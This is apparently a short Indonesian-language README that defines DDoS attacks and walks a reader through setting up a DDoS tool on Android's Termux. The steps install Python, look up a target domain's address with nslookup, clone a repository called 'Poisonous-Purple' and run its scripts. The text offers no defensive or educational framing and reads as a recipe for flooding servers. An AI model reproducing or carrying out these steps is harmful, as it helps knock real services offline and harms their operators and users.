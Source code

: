 DDOS (denial-of-service Attacks) adalah jenis serangan yang dilakukan dengan cara membanjiri lalu lintas jaringan internet pada server, sistem, atau jaringan.

buka aplikasi termux ketikan perintah dibawah ini :
▪ apt update && apt upgrade

▪ pkg install python

▪ pkg install python2

▪ apt install dnsutils

▪ nslookup example.com

▪ pkg install git

▪ git clone https://github.com/Twinlion24434/Poisonous-Purple.git

▪ cd Poisonous-Purple

▪ ls

▪ python setup.py

▪ python Poisonous-Purple.py

